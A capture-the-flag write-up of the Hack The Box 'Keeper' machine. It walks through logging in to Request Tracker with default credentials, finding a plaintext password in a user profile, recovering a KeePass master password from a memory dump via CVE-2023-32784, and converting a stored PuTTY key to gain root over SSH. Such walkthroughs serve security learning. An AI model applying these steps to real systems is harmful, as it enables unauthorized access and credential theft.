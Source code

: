 # HTB Keeper Write Up
![HTB Keeper](imgs/machine_info.png "Keeper")

## Network Scan

<details>
<summary><b>Nmap scan result</b></summary>
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3539d439404b1f6186dd7c37bb4b989e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKHZRUyrg9VQfKeHHT6CZwCwu9YkJosNSLvDmPM9EC0iMgHj7URNWV3LjJ00gWvduIq7MfXOxzbfPAqvm2ahzTc=
|   256 1ae972be8bb105d5effedd80d8efc066 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBe5w35/5klFq1zo5vISwwbYSVy1Zzy+K9ZCt0px+goO
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
</details>

## Investigation
Accessing the http service, it just prints a redirection message to tickets.keeper.htb/rt vhost.
![Http server no vhost](imgs/http_server_no_vhost.png "Http server no vhost")   

### tickets.keeper.htb
Best Practical Request Tracker software. There is no public exploit to recent vulnerabilities
This service comes with default credentials
```
User: root
Pass: password
```

It is possible to log in with default credentials.
![Request tracker page](imgs/request_tracker_page.png "Request tracker page")

Issue tracker software normally contains sensitive information. Usually on the issues but they can be useful in finding users list, information about local services, etc.
On this server, there were only two users:
![Request tracker user list](imgs/request_tracker_user_list.png "Request tracker user list")
lnorgaard user has the password on the description
![lnorgaard password](imgs/lnorgaard_password.png "lnorgaard password")

Checking if it's possible to log in on ssh with this user and it's possible.

### lnorgaard
RT30000.zip file on home, containing two files
```
$ unzip -l RT30000.zip 
Archive:  RT30000.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
253395188  2023-05-24 12:51   KeePassDumpFull.dmp
     3630  2023-05-24 12:51   passcodes.kdbx
---------                     -------
253398818                     2 files
```

Looking into the files
```
$ file KeePassDumpFull.dmp 
KeePassDumpFull.dmp: Mini DuMP crash report, 16 streams, Fri May 19 13:46:21 2023, 0x1806 type
```
```
$ file passcodes.kdbx 
passcodes.kdbx: Keepass password database 2.x KDBX
```

There is a [KeePass vulnerability][CVE-2023-32784] that it is possible to retrieve passwords from a memory dump.
Using a public exploit from [vdhoney][keepass-password-dumper] it's possible to find a list with possible passwords
```
$ dotnet run ~/keeper/KeePassDumpFull.dmp
... SNIP ...
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```
This means that the first character is unknown `●` and the following are possible 16-second characters appended on beginning of `dgrød med fløde`.
Using Google Translate to identify the language, to later perform a smart brute force on the character set. The language was identified as Danish.
When doing this, it was corrected to `rødgrød med fløde`. This is the correct password for passcodes.kdbx
![KeePass Login](imgs/keepass_login.png "KeePass Login")

There was a root user with both password and PuTTY SSH key pair
![Root SSH](imgs/root_ssh.png "Root SSH")

[A PuTTY ssh key can be converted to openssh format][ssh-key-types-convert-ppk].
Following the guide to get the private key and log in as the root
```
$ ssh -i root.id_rsa root@10.10.11.227
$ id
uid=0(root) gid=0(root) groups=0(root)
```

[CVE-2023-32784]: <https://nvd.nist.gov/vuln/detail/CVE-2023-32784> "CVE-2023-32784"
[keepass-password-dumper]: <https://github.com/vdohney/keepass-password-dumper> "keepass-password-dumper"
[ssh-key-types-convert-ppk]: <https://www.baeldung.com/linux/ssh-key-types-convert-ppk> "ssh-key-types-convert-ppk"
